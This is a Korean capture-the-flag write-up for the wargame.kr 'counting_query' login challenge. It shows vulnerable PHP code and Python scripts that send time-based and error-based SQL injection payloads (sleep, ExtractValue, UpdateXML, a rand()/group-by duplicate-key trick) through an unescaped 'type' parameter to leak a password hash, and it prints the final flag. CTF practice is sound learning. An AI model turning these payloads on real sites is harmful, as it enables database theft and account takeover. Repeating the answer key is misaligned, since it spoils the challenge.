

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



# **Write-Up**

ID에는 자신의 공인 IP가 박혀있고 PW를 입력하여 로그인하는 문제이다.


우선 FLAG를 얻을 수 있는 로직을 확인해 보자.

1. t_user라는 테이블에서 user_id, ps, type을 기준으로 데이터를 뽑고, error 확인

2. t_user라는 테이블에서 id, ps를 기준으로 해당되는 ps를 뽑고 ps가 비어있는 지 확인

3. 뽑은 ps와 입력한 ps가 일치하면 FLAG획득

```php
if(false === $result=mysql_query("select * from t_user where user_id='$id' and ps='$ps' and type=$type")){
err("DB Error :: ".mysql_error());
}

$row=mysql_fetch_array($result);

if(empty($row['user_id'])){
err("Login Error :: not found your `user_id` or `password`");
}

echo "welcome <b>$id</b> !! (Login count = $log_count)";

$row=mysql_fetch_array(mysql_query("select ps from t_user where user_id='$id' and ps='$ps'"));

//patched 04.22.2015
if (empty($ps)) err("DB Error :: data not found..");

if($row['ps']==$ps){ echo "<h2>wow! auth key is : ".auth_code("counting query")."</h2>"; }
```

소스를 보면 mysql_real_escape_string으로 id, pw, type에 대하여 특수문자 처리를 하여 SQLi를 막는다. 즉 ' 와 같은 문자를 사용할 수 없지만, type은 ' 가 필요 없는 쿼리로 이루어져 있다.

```php
$id=mysql_real_escape_string($_POST['id']);
$ps=mysql_real_escape_string($_POST['pw']);
$type=mysql_real_escape_string($_POST['type']);
```

type에 SQLi가 통한다는 검증이 필요하다.

```python
import urllib
import urllib.request
import time

url         = 'http://wargame.kr:8080/counting_query/login_ok.php'
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or sleep(5)'}).encode()
request     = urllib.request.Request(url, headers = headers, data = data)
s_time      = time.time()
response    = urllib.request.urlopen(request)
print(response.read().decode())
print(int(time.time() - s_time) - 2)

[Output]
<script>alert("Login Error :: not found your `user_id` or `password`");window.location.href='./';</script>
5
```

또한 ps가 초기화되므로 BlindSQLi로 ps의 값을 1개씩 알아낼 수가 없다.

```php
$row=mysql_fetch_array(mysql_query("select count(*) from login_count where id='$id'"));
$log_count = (int)$row[0];
if($log_count >= 4){
    pw_change($id);
    count_init($id);
    err("SECURITY : bruteforcing detected - password is changed");
}
```

ps또한 난수값이 들어가기에 ErrorBased SQLi로 데이터를 알아내야 한다.

```php
function uniq($data){ return md5($data.uniqid());}
```

ErrorBased SQLi로 DB명을 출력하는 테스트를 해보면 counting_query라는 DB명을 알아오는 것을 확인할 수 있다.

```python
import urllib
import urllib.request

url         = 'http://wargame.kr:8080/counting_query/login_ok.php'
headers     = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
# ExtratValue를 이용한 방법
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or ExtractValue( 1, concat( 1, database() ) )'}).encode()
# UpdateXML을 이용한 방법
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or UpdateXML(1, concat(1, database() ), 1)'}).encode()
request     = urllib.request.Request(url, headers = headers, data = data)
response    = urllib.request.urlopen(request)
print(response.read().decode())

[Output]
# ExtratValue를 이용한 방법
<script>alert("DB Error :: XPATH syntax error: 'counting_query'");window.location.href='./';</script>
# UpdateXML을 이용한 방법
<script>alert("DB Error :: XPATH syntax error: 'counting_query'");window.location.href='./';</script>
```

t_user에서 ps를 뽑아본지만 t_user를 다시 참조할 수 없다는 error가 출력된다.

```python
... 생략 ...
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'123', 'type':'1 or ExtractValue( 1, concat( 1, (select ps from t_user limit 0,1) ) )'}).encode()
... 생략 ...

<script>alert("DB Error :: Can't reopen table: 't_user'");window.location.href='./';</script>
```

t_user는 t_table함수에서 임시 테이블로서 만들어지고, 임시테이블은 임시테이블을 참조한 쿼리에서 서브쿼리로 다시 임시테이블을 참조할 수 없다는 특징을 가진다.

> [MySQL Temporary Table](https://dev.mysql.com/doc/refman/8.0/en/temporary-table-problems.html)

```php
function t_table($id) { return mysql_query("create temporary table t_user as select * from all_user_accounts where user_id='$id'"); };
```

그렇다고 원본 테이블인 all_user_accounts를 참조하려고 했지만 preg_match로 필터링된다.

```php
if(preg_match("/all_user_accounts/i",$type)){
    err("SECURITY : don`t access the other account");
}
```

다른 ErrorBased SQL query로 시도한다. (query 뜻은 나도 모름)

```python
... 생략 ...
data        = urllib.parse.urlencode({'id':'61.251.215.194', 'pw':'pw', 'type':'2 or row(1,1) > (select count(*), concat( ps, floor( rand(0)*2 ) ) as x from (select 1 union select 2 union select 3) as a group by x)'}).encode()
... 생략 ...

[Output]
<script>alert("DB Error :: Duplicate entry 'c0d2ffd8b00991d6af9ec37e18cbbb8b1' for key 'group_key'");window.location.href='./';</script>
```

나온 ps(맨 뒤의 1은 concat으로 붙혀진 값이라서 빼고 MD5 해쉬 자릿수인 32byte만 ps)를 가지고 로그인하면 FLAG를 얻을 수 있다. (type은 user로)


# **FLAG**

**d59e0ce137b5b9e79c10f442d7c3140c0084a147**